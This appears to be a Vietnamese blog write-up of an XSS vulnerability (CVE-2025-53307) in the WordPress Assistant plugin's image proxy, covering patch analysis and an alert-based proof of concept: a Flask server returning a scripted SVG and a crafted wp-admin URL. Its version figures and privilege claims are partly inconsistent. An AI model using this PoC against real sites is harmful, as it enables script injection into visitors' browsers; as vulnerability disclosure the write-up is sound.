



---

Lỗ hổng xảy ra trên plugin **Assistant** của WordPress trước phiên bản **3.6.2**. Điều này có thể cho phép kẻ tấn công chèn mã độc (ví dụ: script chuyển hướng, quảng cáo, hoặc các payload HTML khác) vào website, và những mã đó sẽ được thực thi khi khách truy cập mở trang.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/blog/2025-08-21-wordpress-local-and-debugging/)
* **Assistant**:  v1.5.2(vul) và v1.5.3(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis

Ứng dụng hiển thị trực tiếp nội dung hình ảnh do người dùng cung cấp thông qua URL **mà không xác thực và kiểm tra đầy đủ MIME type**. Điều này dẫn đến việc kẻ tấn công có thể cung cấp một tập tin giả dạng hình ảnh và khi được trình duyệt xử lý, nó sẽ thực thi mã độc => gây ra lỗ hổng XSS.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.



Trong trường hợp này, sự khác biệt giữa 2 phiên bản khá nhiều, để thuận lợi cho việc truy vết, ta có thể xem [change log](https://wordpress.org/plugins/assistant/#developers) để biết bản vá lỗ hổng XSS ở đâu:

```
Changelog
1.5.3 ( 2025-09-08 )

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 Lỗ hỗng nằm trong file **backend/src/Hooks/ImageProxy.php**, ta quan sát sự khác biệt của 2 phiên bản:



Sự thay đổi xảy ra ở hàm `render_image` với chức năng:

* Nhận tham số url từ query string `($_GET['url'])`.
* Gửi request từ server đến URL đó để tải nội dung.
* Chống **ssrf** bằng `wp_safe_remote_get`.
* Nếu nội dung có header **Content-Type** bắt đầu bằng `image/`, thì:

  * Gửi lại header **Content-Type** đó cho client.
  * In (echo) toàn bộ nội dung file ra cho trình duyệt.
* Trình duyệt hiển thị hình ảnh **không phải trực tiếp từ nguồn gốc mà thông qua server WordPress**.

> SVG cũng có **Content-Type** bắt đầu bằng `image/` và có thể chứa mã JavaScript bên trong => XSS có thể xảy ra.

Bản vá đã thêm một lớp kiểm tra **MIME type** thực sự của file để tránh kịch bản XSS bằng SVG hay file giả mạo.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) sử dụng hàm xử lý ảnh nội bộ (dựa trên dữ liệu binary của file) để xác định MIME thực sự.

Nếu kết quả không phải là ảnh hợp lệ => return **false**.

### How it work?

Trong `__construct` của class `ImageProxy`, phương thức `render_image()` được gọi thông qua callback của action hook `'init'`. Hook `'init'` được thực thi rất sớm trong quá trình load WordPress, sau khi các đối tượng core được khởi tạo nhưng trước khi gửi output ra trình duyệt.

`render_image` chỉ được gọi khi người dùng hiện tại có quyền chỉnh sửa bài viết của người khác và tham số `$_GET['fl_asst_image_proxy']` tồn tại.

👉 Khi truy cập `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` thì `render_image` sẽ được gọi và trả về nội dung hình ảnh cho trình duyệt hiển thị.

---

## Exploit

### Detect XSS

Tạo 1 trang [web](https://github.com/w41bu1/w41test) đơn giản trả về nội dung SVG chứa XSS payload

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Gửi request chứa **url param** trỏ đến `https://yoursite/svg`

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Thành công với `Unauthenticated` vì chỉ cần người dùng có quyền, khi truy cập url => XSS xảy ra trên trình duyệt của nạn nhân. Attacker không cần đăng nhập.



---

## Conclusion

Lỗ hổng **CVE-2025-53307** trong plugin WordPress Assistant (**<= v1.5.2**) cho phép XSS thông qua `render_image()` vì không kiểm tra **MIME type** thực của file. Bản vá **v1.5.3** đã khắc phục bằng cách xác thực nội dung file trước khi trả về trình duyệt.

**Key takeaways**:

* Không tin cậy vào **Content-Type header** từ **HTTP response**.
* Luôn xác thực **MIME type** thực sự của file.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)

---
